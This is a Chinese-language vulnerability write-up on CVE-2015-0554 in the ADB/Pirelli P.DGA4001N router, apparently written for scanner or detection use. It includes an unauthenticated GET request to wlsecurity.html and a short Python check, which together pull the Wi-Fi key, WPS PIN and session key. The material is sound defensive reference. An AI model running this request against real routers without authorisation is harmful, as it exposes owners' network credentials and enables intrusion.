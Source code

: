# ADB/Pirelli ADSL2/2+ Wireless Router P.DGA4001N 信息泄露漏洞（CVE-2015-0554）

## 漏洞简介
ADB（原 Pirelli Broadband Solutions）P.DGA4001N 路由器（固件 PDG_TEF_SP_4.06L.6）存在信息泄露漏洞。由于 Web 管理界面访问控制不严，远程攻击者可直接访问敏感页面，获取路由器配置信息，甚至可导致设备重启。

## 影响范围
- 受影响产品：ADB/Pirelli ADSL2/2+ Wireless Router P.DGA4001N（固件 PDG_TEF_SP_4.06L.6）
- CPE: `cpe:2.3:o:adb:p.dga4001n_firmware:pdg_tef_sp_4.06l.6:*:*:*:*:*:*:*`

## 漏洞原理
Web 界面对敏感页面（如 `wlsecurity.html`、`resetrouter.html`）未做有效认证校验，攻击者可直接访问，导致敏感信息泄露或拒绝服务。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问路由器的 `wlsecurity.html` 页面。
2. 页面返回包含 Wi-Fi 密钥、PIN、会话密钥等敏感信息。
3. 攻击者可据此获取无线网络访问权限，或进一步攻击。

## 探测原理与流程
### 请求包示例
```http
GET /wlsecurity.html HTTP/1.1
Host: target.com
```

### 响应示例
```html
HTTP/1.1 200 OK
...
var wpapskkey = "...";
var WscDevPin = "...";
var sessionkey = "...";
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中同时包含 `var wpapskkey`、`var WscDevPin`、`var sessionkey`。

### 伪代码
```python
resp = requests.get('http://target.com/wlsecurity.html')
if resp.status_code == 200 and all(x in resp.text for x in ["var wpapskkey", "var WscDevPin", "var sessionkey"]):
    print('存在信息泄露漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[直接访问 wlsecurity.html]
    B --> C[检查响应内容]
    C --> D{是否包含敏感变量?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F[存在信息泄露漏洞]
```

## 参考链接
- [Exploit-DB 漏洞分析](https://www.exploit-db.com/exploits/35721)
- [Packet Storm Security](http://packetstormsecurity.com/files/129828/Pirelli-ADSL2-2-Wireless-Router-P.DGA4001N-Information-Disclosure.html)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2015-0554)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon) 